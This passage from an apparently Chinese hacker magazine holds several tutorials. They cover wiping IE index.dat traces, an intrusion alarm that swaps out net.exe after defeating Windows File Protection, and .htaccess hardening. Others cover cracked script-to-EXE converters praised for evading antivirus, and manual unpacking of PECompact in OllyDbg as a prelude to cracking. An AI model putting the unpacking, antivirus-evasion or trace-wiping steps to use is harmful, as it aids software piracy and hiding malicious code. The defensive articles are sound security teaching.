MsgBox "读取痕迹时发生错误!请检查目标 index.dat 是否存在!", vbCritical
End Sub

Private Sub URLList_Click() 'URL 列表按下事件
If URLList.ListIndex <> -1 Then URLShow.Text = URLList.List(URLList.ListIndex) '将选中的 URL 放入下方文本框内方便用户复制
End Sub
```

```vb
Private Sub Command2_Click() '清除按钮的按下事件代码
On Error GoTo error '发生错误跳转到 error
Open FilePath.Text For Binary As #2 '打开目标 index.dat
Put #2, 1, String(FileLen(FilePath.Text), Chr(0)) '用 string 函数获得文件字节数个 Chr(0)即是"空"并写入
Close #2 '关闭目标 index.dat
MsgBox "目标 index.dat 内的 URL 访问痕迹已经完全被清除!", vbInformation '报告用户
Exit Sub
error: '报错
MsgBox "读取痕迹时发生错误!请检查目标 index.dat 是否存在!", vbCritical
End Sub
```


图 4 清除结果

点击清除按钮后就会清除痕迹，再次读取就什么都读不到了，如图 4 所示。

# 后记

好了，这下可以放心了。index.dat 危害重大，大家也可以留着这个工具使用。程序还有很多可以补充的地方，留给大家自由发挥吧。

有什么问题可以到黑客手册论坛（http://www.nohack.cn/bbs/）或者烧焦程序员联盟联系我。

（作者提到的 index.dat 读取清除及代码已经收录在光盘中）

> **编辑点评：**
> 作者为我们分析了 index.dat 的危害性，同时也给出了解决方案。配套的程序做到了小而精，不管放在哪儿都没有问题，给我们随身携带带来了方便。用代码来解决现实问题，这就是代码的魅力所在。


> **小编寄语：**
>
> 9 月本栏目刊登了捉拿小黑的具体可行方案，让我们积累了一个新的知识点。本期我们继续用简单的实例来学习新的知识点，那就是入侵检测系统（Intrusion Detection System，简称 IDS）。对于我们菜鸟来说，IDS 是听得较多但是接触的机会较少，IDS 相关的工作原理及其延伸知识大家可以通过搜索引擎获得。IETF 将一个入侵检测系统分为四个组件：事件产生器（Event generators）/ 事件分析器（Event analyzers）/ 响应单元（Response units）/ 事件数据库（Event databases）。其中响应单元的功能是对分析结果作出反应，比如它可以作出切断连接、改变文件属性等反应；也可以只是简单的报警。而本篇正是针对它的“简单报警”块来设计的，而且内容也比较符合我们菜鸟的动手水平，同时我们还能学到改变 Windows 系统文件后不让系统还原的办法，还愣着干什么，赶快拿出我们的“菜鸟精神”，行动吧！

# 菜鸟 DIY 入侵报警系统

*IETF：英文全称是“The Internet Engineering Task Force”，译为“互联网工程任务组”。IETF 是一个松散的、自律的、志愿的民间学术组织，成立于 1985 年底，其主要任务是负责互联网相关技术规范的研发和制定。*

- 从本文你可以学到：
  1. 了解什么是入侵检测系统及 Windows 文件保护功能
  2. 利用黑客习惯性的操作来打造入侵提醒功能

前段时间稍微了解了下入侵检测系统，觉得这是个好东西，很有实用价值，所以自己也在一边琢磨着些思路，看能不能自己弄个简易的入侵检测系统对付下小菜们。摆弄了好几天，有了个自我感觉很幼稚但估计还是有点用的东西，现在把过程说给大家听下，希望大家提出宝贵意见！

> 小知识：什么是入侵检测系统？
> 入侵检测技术就是主动保护自己免受攻击的一种网络安全技术，它主要靠检测用户提交的数据来判断是否为入侵，从而实现保护和追踪等功能。

说了这么多，其实对于我们来说就是怎么去发现用户是在入侵，然后怎么去阻止他这个道理。好了，知道该做什么了就好，跟我来吧。

## 一、思路

要防止别人入侵，是不是先知道入侵者会干些什么呢？这里我们就以检测服务器是否被上传了 shell 为例来说明。首先大家想下自己入侵时拿到 shell 后会干什么呢？会想提权是吧？那提权又需要干些什么呢？一般人都会看下能运行 cmd 命令是吧？呵呵，对了，你的思路跟着来就好了！既然他要运行 cmd，我们何不将计就计，把他要运行的命令换成我们的报警程序，等他一运行就给我们报警，那我们岂不就是检测到了服务器上已经被上传了 webshell，就达到目的了吧。

## 二、实践

呵呵，思路已经有了，下面就尝试下去如何实现吧。前面说了要实现报警，怎么报警比较直观呢？这里我用的是发邮件的方式，只要一运行我们的程序就给我自己发一封邮件。这里我一个朋友在网上帮忙找到了现成的代码，我们将就用吧，很简单的，只要照着说明修改几个参数编译就可以了，如图 1。报警程序有了，下面是去替换入侵者要用到的文件，换哪个呢？换 net.exe 吧，很多地方都要用到它的，肯定有人会中我们的圈套的！

开始以为直接替换就完事了，结果才发现 Windows 的文件保护功能是不让我们轻易替换掉这些系统文件的，难道就这样放弃了吗？当然不是，有什么能难得倒我们菜鸟呢？

> 小知识：Windows 的文件保护功能的工作原理
> 该功能其实是使用磁盘上的空间将受保护的文件做一个备份，一旦系统发现文件被修改或者是被替换，立即用备份的文件恢复，这个过程只是一瞬间的事。

了解了这个原理，要取消这个功能就变得很简单了，进入 c:\windows\system32\dllcache 这个目录（dllcache 目录是隐藏的，要在文件夹选项里面选择显示系统文件才可以看见），删除里面所有的文件；这样在替换文件的时候，系统文件保护仍然会起作用，不过它就没有文件可以恢复了，我们就达到了目的了。这时候只需找到要替换的文件，改名，然后复制你想替换的文件就可以了！OK，我们先去 dllcache 目录删除掉 net.exe，如图 2。然后去 c:\windows\system32\ 把 net.exe 改名为 net2.exe，接着把我们的报警程序 mail.exe 改名为 net.exe 放到系统目录就大功告成了。

```cpp
SMTPInfo smtpInfo;
smtpInfo.Priority = 1; //邮件优先级 1为最高 5为最低
smtpInfo.Subject = "HK发信测试"; //邮件主题
smtpInfo.RecvFromMail = "admin@admin.com"; //发件人信箱
smtpInfo.SendToMail = "heiliu@126.com"; //收件人信箱
smtpInfo.From = "admin"; //发件人姓名
smtpInfo.To = "李四"; //收件人姓名
smtpInfo.Body = "报警"; //邮件正文
```

图 1 关键代码


现在是让我们的简易入侵检测系统一显身手的时候了，登录上自己留的 webshell 来测试一下。打开海洋的执行命令功能，运行 net user 命令看是什么情况，呵呵，提示邮件已经发送成功，如图 3。接着我们再去登录邮箱看下是否收到了警报呢？哈哈，邮件也收到了，我们成功了，如图 4。要是再用上手机接收邮件功能，那岂不是谁动我们的服务器立马就能收到通知了，这样服务器就在我们的掌控之下了。

## 三、写在之后

其实最开始我的想法是替换 WScript.Shell 对应的文件或者是修改它所对应的 CLSID，和 lake2 大哥讨论后也觉得可行，但是这样就涉及到要用 Visual Basic 自己写个组件的问题，考虑到对于菜鸟朋友们来说未免有点麻烦，就索性来得简单点，希望大家能各取所需，不要笑话！这里只是简单地提到了如何去对自己实现入侵的检测，其实功能远不限于此，还可以通过记录会话得到攻击者 IP 等信息实现跟踪等等，这些都留给大家来讨论了。最后多谢 lake2 和 focn 的帮助！我是黑萝卜，欢迎大家到非安全的论坛讨论！

> 【文中涉及到的 mail.exe 程序及源代码，已经收录在光盘中】

> 编辑点评：
> 利用黑客们习惯性的操作来设置入侵提醒很实用，作者也提到还可以通过记录会话来得到攻击者的 IP，而这样只是获得了一些入侵的信息，而黑客的入侵依然继续着。我有个想法，当记录到这个 IP 后启动一些安全程序来直接封锁 IP 来阻止入侵。

# 见识 Apache 自带“双刀”

## ——用 .htaccess 和 .htpasswd 配置安全网站

> 好久没有看到空空的文章，能再次看到他的文章，心里十分高兴。作为 nohack 编辑队伍的一员老将，以身作则，不但编辑其他作者的文章，自己也笔耕不辍，为《黑客手册》写了不少好文章，各位读者要向他学习。以前可能只是看《黑手》，现在要学会给《黑手》投稿，将来还要编辑《黑手》。本期 office38 线除了空空给大家带来的 Apache“双刀”以外，还有 icyleaf 给大家带来的两个很实用的脚本转换工具，需要的朋友赶快试试吧。

- 从本文你可以学到：
- Apache 服务器的有关设置
- 怎样通过修改 .htaccess 文件来保护站点
- 如何使用 htpasswd 加密

很久没有出来和大家见面了，最近实在很忙，不知大家还记得我不（小编：我们每天都呼吸着你）？废话不说了，这次我想来和大家一起研究下 .htaccess 文件与脚本安全的话题：怎么利用 .htaccess 来保护站点上的脚本，不让黑客利用我们未知的脚本漏洞来入侵。

## 什么是 .htaccess 文件？

.htaccess 文件（或者“分布式配置文件”）是 Apache 中相当重要的配置文件，可以理解为 httpd.conf（Apache 的配置文件）的扩展，其格式为纯文本。它提供了针对目录改变配置的方法，通过在一个特定的文档目录中放置一个包含一个或多个指令的文件，以作用于此目录及其所有子目录。

## .htaccess 文件能干什么？

自定义错误文档、文档访问、禁止 IP 访问、URL 转向、rewrite……

**注意：.htaccess 是工作在 Apache 下的，如果服务器用的是 IIS 就没用了。**

我们回顾一下历史，php 脚本（因为 Apache 对 asp 支持比较弱，而且不常见，我们暂且不谈了，就拿 php 来举例子吧）有哪些常见的漏洞呢？上传漏洞、登录过程验证不严、SQL 注入、include（文件包含漏洞）等等。当然密码太简单也会给黑客带来机会。

## 那 .htaccess 文件能为我们做什么呢？

首先我们来看看如何使用 .htaccess 文件来避免脚本存在的未知上传漏洞吧！一般程序的上传功能都会把我们要上传的文件存到某个特定的目录，比如 Bo-Blog 保存在 attachment 目录、Discuz 保存在 attachments 目录。我们也可以从这些 php 程序的安装说明文件中看到，程序要求我们必须把一些目录的权限设置成 777，为什么呢？通常是因为这些目录要用来存放用户上传的文件，或是程序运行时自动产生的临时文件和缓存文件（例如 Discuz 用的 forumdata 目录）。在 *NIX 下，如果不把权限设置成 777 的话，程序是无法在这些目录中生成或修改文件的（Windows 主机的用户可以把其他文件夹的写入和修改权限去掉，提高安全性）。这些目录常常会成为黑客入侵时上传木马的场所，我们这时就可以通过 .htaccess 文件来禁止网页木马的运行。我们编辑 .htaccess，写入以下内容：

```apache
<Files ".php">
### 禁止以 .php 结尾的文件运行
Order deny,allow
Deny from all
### 禁止所有
</Files>
```

然后我们把这个 .htaccess 文件用二进制方式上传到需要禁止 php 脚本运行的目录就可以了。这样，黑客即使上传了网页木马，也无法运行。

如果你的服务器可以运行 php3、py、pl 或者 cgi 的话，也要分别把它们禁止运行。

```apache
<Files ".php">
Order deny,allow
Deny from all
</Files>
<Files ".cgi">
Order deny,allow
Deny from all
</Files>
<Files ".php3">
Order deny,allow
Deny from all
</Files>
<Files ".pl">
Order deny,allow
Deny from all
</Files>
<Files ".py">
Order deny,allow
Deny from all
</Files>
```

图 1

图 2

当我们在浏览器中打开受保护目录中的 PHP 时，就会提示：“You don't have permission to access *.php on this server.”，大致意思是：在这个服务器上，你没有权限读取 *.php（图 1）。通过这一步，已经可以抵御大多数网页形式的木马了。

接下来我们看看如何保护程序后台，避免登录过程验证不严或用户弱口令带来的危害。这里我们有 2 种方法，1 是通过 HTTP 验证，2 是 IP 限制。

我们先看看 HTTP 验证。我们在 .htaccess 文件中写入以下内容：

```apache
AuthName "这里写验证时显示的标题"
AuthType Basic
AuthUserFile .htpasswd 文件的绝对路径
Require valid-user
```

图 3

这时我们打开这个目录里的任何文件时，都会要求我们输入用户名和密码进行认证，一般我们把这个文件放在管理后台脚本所在的目录，如 /admin/。这样，别人试图进入我们的后台时，会要求输入密码。如果没有用户名和对应的密码，就无法进入了。

这里还牵涉到一个 .htpasswd 文件的问题，.htpasswd 文件里面存放的就是我们验证时所要输入的用户名和加密过的密码。在 Windows 下，我们可以通过 htpasswd.exe 这个小程序来生成用户名和对应的密码。

大家在 cmd 下直接输入 htpasswd.exe 就会出现提示信息，这个我就不多说了，大家自己看吧。我们现在要生成一个用户名为 wzhpro，密码为 nohack 的用户口令，只要输入 htpasswd.exe -nb wzhpro nohack，程序就会默认按 MD5 方式加密，屏幕上就会出现（图 2）：

图 4

```text
Automatically using MD5 format.
wzhpro:$apr1$VC5.....$qIcT6BytJYkyE3dTcBbES.
```

其中，“wzhpro:$apr1$VC5.....$qIcT6BytJYkyE3dTcBbES.”就是我们所要存放在 .htpasswd 文件里的内容。

如果是在 Linux 下，并且安装有 Apache 的话，就可以直接运行 htpasswd，命令格式和 Windows 下差不多，但是 Linux 下不会自动以 md5 方式加密，我们还要加上参数“-m”（图 3）。

把用户名和密码复制到 .htpasswd 文件里面以后，我们通过二进制方式上传到服务器上，htaccess 中所指定的位置。然后在浏览器中打开，就可以看见效果了（图 4）。这样其实也可以用来避免程序后台的未知注入漏洞被黑客利用。

接下来我们看看 IP 限制的方法。如果你是固定 IP 或有规律的动态 IP 分配的话，使用这个方法会比较方便。我们编辑 .htaccess，写入以下内容：

```apache
Order Deny,Allow
### 表示先找出禁止的（deny），然后去找许可的（allow）
Deny from all
Allow from 222.191.42.
### 允许 222.191.42.* 这个 IP 段访问，这个要根据你的实际情况修改
### 如果只允许某个 IP 访问的话，把 Allow from 后面的 IP 写全就好了，例如 222.191.42.99
```

然后我们把这个文件用二进制方式传到我们需要限制访问的目录就可以了。当我们自己打开该目录时，一切正常。当 IP 不在允许范围内时，就会出现禁止访问的字样。当然，你也可以把上面的 3 种方法叠加起来使用！

另外，我们最好给 .htaccess 文件和 .htpasswd 文件加上权限，防止被黑客修改。Linux 下，我们可以设置文件权限为 644；Windows 下，我们可以对 Apache 用户取消这两个文件的修改权限。

OK，就写到这里了，希望大家网站不要被入侵。关于 .htaccess 文件的更多应用，我在论坛上给大家准备了一篇相关的文章：http://www.nohack.cn/bbs/thread-50289-1-1.html。有兴趣的可以去看看。

【文中所涉及到的 htpasswd.exe，已经收录在光盘中】

> **编辑点评：** 好久不见空气的新作了，作为 nohack 的当红小生（土豆：那我呢！！小编：汗，你是大生），这次他又给大家带来了一篇非常实用的网站服务器安全设置文章——大多数人在安装完 Apache 以后，都很少想到去做一些安全工作，其实这样的习惯是很不好。看完这篇文章后，大家就应该知道在装完 Apache 后要做什么了吧？

# 拿什么来保护你——我的脚本文件

icyleaf

- 从本文你可以学到：
- 脚本转可执行文件的一些知识
- VBS2EXE 2.7 和 ExeScript 2.1.1 的用法

如今是“乱世”！各式各样的木马、病毒横行在网络上，导致广大网友不得不穿上“铠甲”，拿起“武器”来武装自己。当然各位的武器“锋利”与否就不太好说了，况且木马、病毒伪装的招数越来越厉害，可以轻松骗过那些所谓的利器！

说到伪装，很多的应用程序可以使用加壳、捆绑、改写程序等方法躲避，但是对于脚本文件（VBS、JS 等）或批处理文件来说只能通过简单地加密。但是这样仍然会被杀毒软件轻易地查杀，如果不凑巧碰到了高手，他们可以毫不费劲地解开被加密的源文件。

脚本文件小巧又方便，可是拿什么来保护它们呢？不用担心，VBS2EXE 和 ExeScript 这两个小软件会解决你的难题。它们都是面向高级计算机用户的出色工具，用户不需要了解编程知识，就可以创建和编译自己的可执行程序，无须写一行代码，而且这两个软件都是已经被汉化和破解注册的，感谢这些热心的朋友！

## 一、VBS2EXE 2.7 汉化破解版

虽说是 VBS2EXE，但它是一个可以将 VB Script 文件和 Java Script 文件转换为 Windows 标准可执行文件的小工具，还可以保护你的脚本源代码。同样也扩大了脚本的运行范围，可以在没有安装脚本支持程序的机器上运行脚本。这里我使用的是汉化注册版本。通过简单地安装，我们来看一下它的界面（如图 1）。

先载入要转换的脚本文件。选择时会有点麻烦，程序默认的文件类型是 VBS 文件，而 JS 文件就在“打开”对话框的文件类型下拉框里。好了之后可以点工具栏中的“视图”下的“脚本编辑器”查看载入的脚本文件，当然也可以添加修改，最后注意要点下“保存更改”，不要辛苦地编辑就白费咯。设置好图标、保存路径以及脚本文件的“关于”信息，在脚本语言选择相应的类型。

执行式样有“标准”和“WScript 支持”，默认就可以。而“隐藏应用程序标题”其实就是你设置的“应用程序属性”，当你运行已转换后的 EXE 程序，首先运行脚本文件直到执行完毕后再显示应用程序标题。

另外在编译时可以利用一些它程序内部的函数，通过选择“帮助”→“帮助主题”打开帮助文件，依次打开“OverView”→“Compiling”→“Extended Commandset”，在它下面包含 API、File、Misc（对话框操作）以及 App。里面还有一个例子来帮助各位的使用。

## 二、ExeScript 2.1.1 汉化破解版

它可以将批处理文件（.bat）、Visual Basic 和 Java 脚本快速转换为可执行 EXE 文件，并且在编译过程中加密脚本文件，可以有效地保护 .bat、.vbs 和 .js 的内容。并且可以选择“安静模式”运行，对于长期以来所困扰的运行批处理文件总是显示运行窗口来说，莫过于是一件兴奋的事情啦！同时它还是一个绿色软件，直接双击打开，界面十分简单（如图 2）。

其实它是一个多文档处理软件，并且还有高亮显示功能的编辑工具，查看脚本时舒适方便。VBS2EXE 虽然不支持高亮，但是它把包含字符体显示了，增加了可读性。接着让我们找一找“安静模式”在哪里，哦，对了，在“方案”里面隐藏着呢！

同样这款软件的帮助也是不错的，在“Additional help info”下面讲解的就是关于批处理文件的常用命令以及 IF 语句的说明和用法。都是很简单的英文，大家自己学习下吧。

### 总结：

这两个软件对普通网民都是很实用的东东，更别说是对我们黑迷了，而这两个软件使用的范围我个人作了一下分析：前者较多用于保护脚本文件的内容，可以自定义的地方很多，编译后运行速度稍微有点慢，如果机器速度不是很快的话，那就有可能会闪过一个窗口；而后者用于隐藏运行最合适不过了，尤其是其批处理！并且运行速度也比前者快不少。遗憾的是无法自定义图标，不过通过资源修改软件（Resource Hacker 等）就可以修改了。

分别使用 Resource Hacker 打开两个软件生成的程序发现，由 VBS2EXE 编译的程序是重新由 Delphi 编写的，而 ExeScript 是 VC++，这就表明后者生成的程序大小比前者小得多！更方便做“秘密任务”。

> 嘿~还愣什么呢，赶快行动吧！

【文中所涉及到的 ExeScript 2.1.1 和 VBS2EXE 2.7，已经收录在光盘中】

**编辑点评：** 以前学习 VB 的时候写了很多 VBS 的黑客工具，比如下 3389 终端的，探测远程 IPC 口令的，通过 Outlook 自动发邮件的……大多数都遭到了杀毒软件的追杀，而且在去掉脚本支持的主机上，我们的脚本就失去了作用。用这两个工具的话，大家就可以通过把 VBS、JS 文件转换成 exe 文件来达到保护脚本、保存脚本功能的目的。

# 破解前奏之手脱 PECompact 2.x 的六脉神剑

从本文你可以学到：

手脱 PECompact 的 6 种方法

大家好，经过前面几次的学习，相信大家已经学有所成，现在继续我们的手脱之旅，这次带给大家的是 PECompact 2.x 的六脉神剑。相信大家在学习脱壳的时候或者学习免杀之前，都可能会遇到，所以本文使用六脉神剑来对付它（嘿嘿，会不会有点太多了吧？）。还是那句话，本文主要针对脱壳新手，如果你已经是高手了，就可以跳过，继续抄起我们非常熟悉的家伙，继续我们的旅程：

- 需要准备的工具：
- OllyDBG v1.1（用于动态调试）
- LordPE v1.4（脱壳辅助工具）
- ImportREC v1.42+（脱壳辅助工具）
- 另加：
- Brain（必要，这个非常重要，没有它，你根本不可能实现以下过程）
- Cigarette（非必要，如果有需要的话，可以来一根，嘿嘿）

废话不多说，下面就开始学习方法一吧：

## 一、冲剑：使用 ESP 定律

```asm
00401000 P> B8 006B5200 mov eax,PcMedik.00526B00 ; 载入后停在这里
00401005 50 push eax
00401006 64:FF35 000000>push dword ptr fs:[0] ; F8 来到这里出现 ESP，可以下断点 hr esp
0040100D 64:8925 000000>mov dword ptr fs:[0],esp
///////////////////////////
EAX 00526B00 PcMedik.00526B00
ECX 0012FFB0
EDX 7C95ED54 ntdll.KiFastSystemCallRet
EBX 7FFDF000
ESP 0012FFC0 ; 注意这里出现红色
EBP 0012FFF0
```

> 小提示：这里的下断手法因人喜欢而异，不一定要和我的一样，还可以下断 hr 12ffc0，又或者在 ESP 处使用右键到内存窗口，再使用右键下断点，如图 1、图 2 所示。

```asm
7C94409F 3B45 08 cmp eax,dword ptr ss:[ebp+8]
; 中断后停在这里，不需要取消断点，F8 一路走
7C9440A2 72 09 jb short ntdll.7C9440AD
```

```asm
7C9440A4 3B45 F8 cmp eax,dword ptr ss:[ebp-8]
7C9440A7 0F82 8C930500 jb ntdll.7C99D3D2
......
7C9440C5 53 push ebx
7C9440C6 56 push esi
7C9440C7 E8 85AD0100 call ntdll.7C95EE51
7C9440CC 3BFB cmp edi,ebx
7C9440CE 0F84 FE920500 je ntdll.7C99D3D2 ; 来到这里的时候，按下回车
```

这里只需要一直按 F8 就可以了，直到有一个 CALL，接着一个 CMP，再接着一个 JE 的时候，在 JE 的地方按下回车键。

```asm
7C99D3D2 8366 04 EF and dword ptr ds:[esi+4],FFFFFFFF ; 来到这里，再按一下 F4
7C99D3D6 33FF xor edi,edi
7C99D3D8 E9 F76CFAFF jmp ntdll.7C9440D4
```

按 F4 的原因就是不要让它跳回去，而让它一直往下走。

```asm
00526B33 53 push ebx
; F4 后来到这里，看到这里有点像 OEP 的样子，不过这里可不是 OEP 哦，只是有点像而已，但实际上不是
00526B34 51 push ecx
; 这里可以继续一路 F8 下去
00526B35 57 push edi
00526B36 56 push esi
00526B37 52 push edx
```

这里继续 F8，很快就会到成功的地方啦！

```asm
00526BAC /EB 0C jmp short PcMedik.00526BBA ; 来到这里的时候，就注意一下了，因为快到 OEP 了
00526BAE |03CA add ecx,edx
00526BB0 |68 00800000 push 8000
00526BB5 |6A 00 push 0
......
00526BBC 5A pop edx
00526BBD 5E pop esi
00526BBE 5F pop edi
00526BBF 59 pop ecx
00526BC0 5B pop ebx
00526BC1 5D pop ebp
00526BC2 FFE0 jmp eax ; jmp to OEP，飞向光明之巅
```

PECompact 2.x 比较经典的代码，就是在很多个 POP 后再来一个 JMP 跳向原始入口点，也就是跳向 OEP 了。

```asm
0049604C 55 push ebp ; OEP，这里就可以 Dump 下来了，如果熟悉代码的话，基本可以确定是 Delphi 编写的了
0049604D 8BEC mov ebp,esp
0049604F B9 36000000 mov ecx,36
00496054 6A 00 push 0
```

到这里，这个壳已经完全脱掉了，如果需要修复的话，那么只需要前面几次学习过的基础知识就可以了，这里不再重复。这里可以看到，对于 PECompact 2.x 壳，使用 ESP 定律来脱的话，还是比较麻烦而且也比较慢，对于我们希望非常快速脱壳的来说，是比较难以容忍的，所以我们接着看方法二。

## 二、少冲剑：使用 BP VirtualFree 断点（比 ESP 定律更快速脱壳）

```asm
00401000 P> B8 006B5200     mov eax,PcMedik.00526B00 ; 载入后停在这里
00401005    50              push eax
00401006    64:FF35 00000000 push dword ptr fs:[0]
```

在壳入口处，就可以直接在插件命令行上输入：**BP VirtualFree**，按下 F9 运行，就中断在了下面代码处：

```asm
7C828D34 k> 8BFF            mov edi,edi     ; 中断后停在这里，返回到程序领空
7C828D36    55              push ebp
7C828D37    8BEC            mov ebp,esp
```

**小提示**：程序领空和系统领空还是比较容易判断的，比如 7C828D34 这类的地址就表示在系统领空处，而如 0049604C 这种的就表示在程序领空处，更多知识，请看书或者网络上搜索相关资料。

```asm
003F0427    8B46 0C         mov eax,dword ptr ds:[esi+C] ; 来到这里，一路 F8 走
003F042A    03C7            add eax,edi
003F042C    5D              pop ebp
003F042D    5E              pop esi
003F042E    5F              pop edi
003F042F    5B              pop ebx
003F0430    C3              retn
```

当到了这里的时候，再回想刚才学习的 ESP 定律脱壳法，是不是有点印象呢？

```asm
00526BA0    8985 3F130010   mov dword ptr ss:[ebp+1000133F],eax ; 当来到这里的时候，就很容易看到两个 JMP 了
00526BA6    8BF0            mov esi,eax
00526BA8    8B4B 14         mov ecx,dword ptr ds:[ebx+14]
00526BAB    5A              pop edx
00526BAC    EB 0C           jmp short PcMedik.00526BBA ; 来到这里的时候注意一下了，因为快到 OEP 了
00526BAE    03CA            add ecx,edx
00526BB0    68 00800000     push 8000
...
00526BC0    5B              pop ebx
00526BC1    5D              pop ebp
00526BC2    FFE0            jmp eax                    ; jmp to OEP
```

这里就更熟悉了吧？跳向 OEP 的地方，这个方法是不是比 ESP 定律更快一点呢？那么你想不想更快速一点呢？那么请继续学吧！

## 三、中冲剑：硬件断点法

```asm
00401A64 > B8 ECB77E00      mov eax,URLSnoop.007EB7EC ; 载入停在这里，设置硬件断点
00401A69   50               push eax
00401A6A   64:FF35 00000000 push dword ptr fs:[0]
00401A71   64:8925 00000000 mov dword ptr fs:[0],esp
00401A78   33C0             xor eax,eax

00401A64 > EB 10            jmp short URLSnoop.00401A76 ; OEP, Dump it
00401A66   66:623A          bound di,dword ptr ds:[edx]
00401A69   43               inc ebx
00401A6A   2B2B             sub ebp,dword ptr ds:[ebx]
00401A6C   48               dec eax
```

F9 运行后马上停在 OEP 处，是不是觉得很惊讶呢？快吧？那么还有没有和这种方法一样快的呢？答案是肯定的，继续学习。

## 四、少泽剑：使用 EIP 断点（比上面三剑更快速）

```asm
00401A64 > B8 ECB77E00      mov eax,URLSnoop.007EB7EC ; 载入停在这里，下断点在 eip
```

```asm
00401A69   50               push eax
00401A6A   64:FF35 00000000 push dword ptr fs:[0]
00401A71   64:8925 00000000 mov dword ptr fs:[0],esp
00401A78   33C0             xor eax,eax

00401A64 > EB 10            jmp short URLSnoop.00401A76 ; OEP, Dump it
00401A66   66:623A          bound di,dword ptr ds:[edx]
00401A69   43               inc ebx
00401A6A   2B2B             sub ebp,dword ptr ds:[ebx]
00401A6C   48               dec eax
00401A6D   4F               dec edi
```

F9 运行后马上停在 OEP 处，拿出 LordPE 来 Dump 下吧，再修复一下就可以正常运行了。

## 五、少商剑：使用 bp kernel32.LoadLibraryA 断点

```asm
00401A64 > B8 ECB77E00      mov eax,URLSnoop.007EB7EC ; 载入停在这里
00401A69   50               push eax
00401A6A   64:FF35 00000000 push dword ptr fs:[0]
00401A71   64:8925 00000000 mov dword ptr fs:[0],esp
00401A78   33C0             xor eax,eax
```

在壳的入口处直接下断点 **bp kernel32.LoadLibraryA**，中断在下面代码处：

```asm
7C801D9C > 8BFF             mov edi,edi     ; 中断在这里，取消并返回程序领空
7C801D9E   55               push ebp
7C801D9F   8BEC             mov ebp,esp
7C801DA1   53               push ebx
7C801DA2   33DB             xor ebx,ebx
7C801DA4   395D 08          cmp dword ptr ss:[ebp+8],ebx
7C801DA7   56               push esi
7C801DA8   57               push edi
7C801DA9   74 14            je short kernel32.7C801DBF
7C801DAB   68 547B827C      push kernel32.7C827B54 ; ASCII "twain_32.dll" /// 注意 twain_32.dll 这个文件
7C801DB0   FF75 08          push dword ptr ss:[ebp+8]
7C801DB3   FF15 D813807C    call dword ptr ds:[<&ntdll._stricmp>] ; ntdll._stricmp
```

**小提示**：这里注意 "twain_32.dll" 这个文件，如果第一次中断没看到这个文件的话，那么继续中断第二次，直到看到为止。

注意一下堆栈：

```asm
0012FF70   01010C40  /CALL 到 LoadLibraryA 来自 01010C3A
0012FF74   01011592  \FileName = "kernel32"
```

返回后就一直 F8 下去，有回跳就继续往下走，不要跳回去，这里就省略 N 多代码了，很快就来到：

```asm
007EB898  /EB 0C            jmp short URLSnoop.007EB8A6 ; /// 看到这里，就知道很快到 OEP 了
007EB89A  |03CA             add ecx,edx
007EB89C  |68 00800000      push 8000
007EB8A1  |6A 00            push 0
007EB8A3  |57               push edi
007EB8A4  |FF11             call dword ptr ds:[ecx]
007EB8A6  \8BC6             mov eax,esi
007EB8A8   5A               pop edx
007EB8A9   5E               pop esi
007EB8AA   5F               pop edi
007EB8AB   59               pop ecx
007EB8AC   5B               pop ebx
007EB8AD   5D               pop ebp
007EB8AE   FFE0             jmp eax                    ; /// jmp to OEP
```

跳向 OEP 处后，拿出 LordPE 来 Dump 下吧，再修复一下就可以正常运行了。

到这里，我们已经讲解了五种脱壳方法，使用了两个程序，但是不知道大家有没有发现一个问题呢？那就是第一个程序的载入点是 00401000，而第二个程序就不是 00401000。这里有个小技巧：如果载入点不是 00401000 的话，那么载入点就是原始入口点了。好了，继续讲解本文最后一个方法，也是我经常使用的一个方法：

## 六、商阳剑：直接定位法

```asm
00401A64 > B8 ECB77E00      mov eax,URLSnoop.007EB7EC ; 载入停在这里，看到 007EB7EC 了吧？没错，就到那里去
00401A69   50               push eax
00401A6A   64:FF35 00000000 push dword ptr fs:[0]
00401A71   64:8925 00000000 mov dword ptr fs:[0],esp
```

分析一下第一行：**00401A64 > B8 ECB77E00 mov eax, URLSnoop.007EB7EC**

根据上面的知识，知道 00401A64 就是原始入口点，也就是 OEP 处，所以到 007EB7EC 去看看。

```asm
007EB7EC    B8 71A54200      mov eax,URLSnoop.0042A571 ; 来到这里，F2 下断点
007EB7F1    8D88 9E123C00    lea ecx,dword ptr ds:[eax+3C129E]
007EB7F7    8941 01          mov dword ptr ds:[ecx+1],eax
007EB7FA    8B5424 04        mov edx,dword ptr ss:[esp+4]
007EB7FE    8B52 0C          mov edx,dword ptr ds:[edx+C]
```

将鼠标往下滚动，很快可以看到下面的代码：

```asm
007EB898   /EB 0C            jmp short URLSnoop.007EB8A6
007EB89A   |03CA             add ecx,edx
007EB89C   |68 00800000      push 8000
007EB8A1   |6A 00            push 0
007EB8A3   |57               push edi
007EB8A4   |FF11             call dword ptr ds:[ecx]
```

```asm
007EB8A6   \8BC6             mov eax,esi
007EB8A8    5A               pop edx
007EB8A9    5E               pop esi
007EB8AA    5F               pop edi
007EB8AB    59               pop ecx
007EB8AC    5B               pop ebx
007EB8AD    5D               pop ebp
007EB8AE    FFE0             jmp eax
```

看了前面的几个方法都知道跳到 OEP 吧，所以这里再下一个断点，中断后，再 F8 一下就在 OEP 处了。

到这里，手脱 PECompact 2.x 的六脉神剑讲解完毕了，这六剑基本能对付所有的 PECompact 壳，包括最新版的 PECompact 2.79 Beta（此程序你可以在附件中找到）。如果你在学习过程中有问题的话，可以到黑客手册论坛发帖交流。

## 脱壳总结

这里给大家送上手脱 PECompact 2.x -> Jeremy Collake 壳的六脉神剑，希望大家会喜欢。当然，方法也并不只有这六种，除了这六种方法外，你还可以使用脱壳机，还有单步跟进法（此方法是非常的郁闷+漫长的，不怕麻烦的话，建议使用，因为这可以看到壳的解压过程），关键是你的思维能力如何了。除了以上方法之外，或许还有不同的方法，我也只是小菜鸟一个而已，对壳的了解不深又怕麻烦 :)

> 编辑点评：同样是脱壳的文章，December 却对同一个壳使用了 6 种不同的脱壳方法，为我们提供了更多的思路，6 招将 PECompact 通杀。方法虽多，我们能不能在最短的时间内找到最有效的方法呢？这就看各自破解的经验了。对于手脱，只要你有耐心，一般的壳都是可以攻破的，大不了单步跟踪，虽然很郁闷……

## 黑客字典 II 算法分析

- 从本文你可以学到：
- 通过查看内存得到程序注册码
- 利用 OD 对程序的注册算法进行分析

# 一、起因

